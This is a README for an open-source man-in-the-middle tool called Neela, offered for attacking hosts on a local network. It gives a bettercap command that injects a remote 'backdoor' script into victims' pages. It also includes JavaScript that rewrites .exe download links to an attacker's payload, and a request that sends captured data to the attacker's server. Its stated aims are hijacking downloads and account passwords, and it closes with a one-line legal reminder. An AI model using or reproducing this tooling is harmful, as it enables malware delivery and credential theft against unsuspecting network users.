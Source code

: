
<div style="text-align:center"><img src ="https://s31.postimg.org/4s7r3ng0r/Neela_logo01_d.png" height="200" /></div>
<br />

![Neela LAN](https://s31.postimg.org/40czeg3zv/home.png)

###### Resume:

Neela, MITM extension tools can execute a routine.

A routine is execution of multiple steps, for hijack download binary... hijack account password ... and more.

###### Require:
    - express
    - body-parser
    - colors
    - cookie-parser
    - cookie-session
    - dns
    - ent
    - express-session
    - ip
    - socket.io
    - os
    - request-ip

##### Start server

```javascript
node neela.js
```

![Neela](https://s31.postimg.org/46463yy8b/Capture_d_e_cran_2016_07_07_a_16_27_26.png)

##### Hacking with bettercap

```
--proxy-module injectjs --js-url "http://SERV_IP:3000/backdoor"
```

![bettercap with Neela](https://s32.postimg.org/duji0l405/Capture_d_e_cran_2016_07_07_a_16_25_50.png)

##### Make Routine & Hack !
* /exploit/routine

```javascript
if(document.getElementsByTagName('a') !== undefined){
  var list = document.getElementsByTagName('a');
  for(var x = 0;x < list.length;x++){
    console.log(list[x].href);
    var current = list[x].href;
    if(current.indexOf('.exe') > -1){
      list[x].href = 'http://IP_SERVER:3000/payload'
    }
  }
}

```

##### Gate receipt

```javascript
var req = new XMLHttpRequest();
req.open('GET', 'http://SERV_IP:3000/gate/'+encoded, false);
req.send(null);
```
![Neela](https://s31.postimg.org/wdfic47wr/Capture_d_e_cran_2016_07_07_a_15_32_28.png)

##### Replace download link
- Select replace_exe.neela routine
- Update /exploit/routine/exe/hacked.exe

![Neela replace](https://s31.postimg.org/worb3hngr/Capture_d_e_cran_2016_07_07_a_16_46_56.png)

##### Neela Logs

![Neela logs](https://s31.postimg.org/qgshncf17/logs.png)


reminder, infiltrate, monitor, computer system without authorization is a crime
